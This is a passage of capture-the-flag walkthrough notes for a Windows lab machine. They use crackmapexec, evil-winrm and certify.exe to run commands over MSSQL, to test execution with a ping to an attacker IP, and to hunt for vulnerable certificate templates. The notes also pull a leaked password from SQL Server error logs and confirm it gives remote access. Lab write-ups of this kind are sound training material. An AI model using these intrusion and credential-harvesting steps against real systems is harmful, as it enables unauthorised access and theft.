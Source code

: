 -> ? no return

```
cme mssql $TARGET -u 'sql_svc' -p 'REGGIE1234ronnie' -x "ping $ATTACKER_IP$"

On our machine :
sudo tcpdump -i tun0 icmp -n
```

-> KO no ping received from command execution on $TARGET

## Attempt to find vulnerable certificates

```
evil-winrm -i $TARGET -u 'sql_svc' -p 'REGGIE1234ronnie' 
```

```
upload certify.exe
.\certify.exe find /vulnerable

No vulnerable Certificates Templates found!
```

-> KO

## Get credentials from error logs and user who entered password instead of username by mistake

```
dir c:\SQLServer\Logs

ERRORLOG.BAK

type ERRORLOG.BAK

Logon failed for user 'sequel.htb\Ryan.Cooper'
Logon failed for user 'NuclearMosquito3'
```

```
cme smb $TARGET -u 'ryan.cooper' -p 'NuclearMosquito3'
```

-> OK , but also OK when we change username

```
cme winrm $TARGET -u 'ryan.cooper' -p 'NuclearMosquito3'
```

-> OK (Pwn3d!)

## Attempt to find vulnerable certificate templates with ryan.cooper account

```
evil-winrm -i $TARGET -u 'ryan.cooper' -p 'NuclearMosquito3' 
```
